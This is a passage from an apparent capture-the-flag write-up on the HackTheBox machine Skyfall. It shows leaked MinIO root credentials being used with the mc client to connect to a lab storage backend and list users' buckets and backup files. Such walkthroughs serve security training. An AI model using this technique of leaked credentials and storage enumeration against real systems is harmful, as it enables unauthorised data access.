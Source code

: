 

The important part is the root user is 5GrE1B2YGGyZzNHZaIww and the root
password is "GkpjkmiVmpFuL2d3oRx0". I'll also note that
`MINIO_BROWSER=off`, which blocks the next exploit.

#### Setup MinIO Client

There's a MinIO client, `mc`, to interact with a given MinIO instance.
I'll download it using the instructions
[here](https://min.io/docs/minio/linux/reference/minio-mc.md). Next I
create an alias with the keys necessary to connect:



    oxdf@hacky$ mc alias set skyfall http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
    Added `skyfall` successfully.



Next it says to test the connection with this command:



    oxdf@hacky$ mc admin info skyfall
    mc: <ERROR>  Unable to display service info, server is too old



I am able to run `ls`:



    oxdf@hacky$ mc ls skyfall
    [2023-11-07 23:59:15 EST]     0B askyy/
    [2023-11-07 23:58:56 EST]     0B btanner/
    [2023-11-07 23:58:33 EST]     0B emoneypenny/
    [2023-11-07 23:58:22 EST]     0B gmallory/
    [2023-11-07 19:08:01 EST]     0B guest/
    [2023-11-07 23:59:05 EST]     0B jbond/
    [2023-11-07 23:58:10 EST]     0B omansfield/
    [2023-11-07 23:58:45 EST]     0B rsilva/



#### MinIO Enumeration

`ls -r` will recursively show all the files in the cluster:



    oxdf@hacky$ mc ls -r skyfall
    [2023-11-08 00:35:28 EST]  48KiB STANDARD askyy/Welcome.pdf
    [2023-11-09 16:37:25 EST] 2.5KiB STANDARD askyy/home_backup.tar.gz
    [2023-11-08 00:35:36 EST]  48KiB STANDARD btanner/Welcome.pdf
    [2023-11-08 00:35:56 EST]  48KiB STANDARD emoneypenny/Welcome.pdf
    [2023-11-08 00:36:02 EST]  48KiB STANDARD gmallory/Welcome.pdf
    [2023-11-07 19:08:05 EST]  48KiB STANDARD guest/Welcome.pdf
    [2024-08-23 17:27:13 EDT] 4.4KiB STANDARD guest/htb.png
    [2023-11-08 00:35:45 EST]  48KiB STANDARD jbond/Welcome.pdf
    [2023-11-08 00:36:09 EST]  48KiB STANDARD omansfield/Welcome.pdf
    [2023-11-08 00:35:51 EST]  48KiB STANDARD rsilva/Welcome.pdf
